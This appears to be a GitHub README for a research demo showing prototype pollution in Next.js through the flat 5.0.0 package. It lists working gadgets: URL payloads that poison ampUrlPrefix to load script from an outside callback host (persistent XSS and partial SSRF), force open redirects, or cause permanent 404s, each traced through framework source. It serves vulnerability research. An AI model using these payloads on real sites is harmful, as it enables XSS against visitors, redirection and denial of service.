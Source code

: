 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927) `5.0.0` is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find any gadgets, send a pull request :)

| Name                              | Description                                        | Type                          | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | Persistent XSS + Partial SSRF | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect                 | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404                 | `next`                          |     ✔     |
| More AMP                          |                                                    |                               |                                 |           |
| React Server Components           |                                                    |                               |                                 |           |
| Image & Font Optimization         |                                                    |                               |                                 |           |
| API & Middlewares                 |                                                    |                               |                                 |           |
| Router                            |                                                    |                               |                                 |           |
| Prisma                            |                                                    |                               |                                 |           |

## AMP first look

Persistent Cross-Site Scripting via `ampUrlPrefix` in `ampOptimizer.transformHtml`.

Also a partial SSRF via `node-fetch` during AMP transform.

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# Partial SSRF - works if route `/*` does not return 404 else server hangs
/vulnerable?__proto__.ampUrlPrefix=https://URL/

```

**Cause**

Requires 2 stages to poison the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize.
Once it's poisoned any single subsequent request will trigger XSS on any session as the server-side code is poisoned via prototype pollution.

```js
/* next/server/render.tsx */
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode(ampState) { return ampState.ampFirst || ampState.hybrid && ampState.hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);
```

```js
/* next/server/optimize-amp.ts */
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'
```

```js
/* @ampproject/toolbox-optimizer/index.js */
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}
```

```js
/* `transformTree` eventually leads to the following */
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> ➕ Also while initializing runtime styles in `@ampproject/toolbox-optimizer`, response body from `ampUrlPrefix` is inserted directly into the ssr-page, meaning one can still achieve XSS even if `RewriteAmpUrls` transformer is disabled.

> 📝 Note: In `next.config.js`, we skip validation `skipValidation: true`.
> This is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
/* next/server/render.tsx */
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
/* next/server/render.tsx */
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```

# Resources

- Prototype pollution attacks in NodeJS applications by Oliver Arteau
  - Video: [Prototype pollution attacks in NodeJS applications](https://www.youtube.com/watch?v=LUsiFV3dsK8)
  - Github: [Paper, Slides and Code](https://github.com/HoLyVieR/prototype-pollution-nsec18)
- [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution) by [Black2Fan](https://twitter.com/Black2Fan)
- A tale of making internet pollution free
  - Slides: [A tale of making internet pollution free](https://speakerdeck.com/s1r1us/a-tale-of-making-internet-pollution-free-bsides-ahmedabad-2021) by [s1r1us](https://twitter.com/S1r1u5_) and [Harsh Jaiswal](https://twitter.com/rootxharsh)
  - Blog post: ["A tale of making internet pollution free" - Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) by [Michał Bentkowski](https://twitter.com/SecurityMB)
- Javascript prototype pollution by [Rahul Maini](https://twitter.com/iamnoooob) and [Harsh Jaiswal](https://twitter.com/rootxharsh)
  - Video: [Part 1](https://www.youtube.com/watch?v=J3MIOIqvV8w)
  - Video: [Part 2](https://www.youtube.com/watch?v=yDmOXhr8wmw)
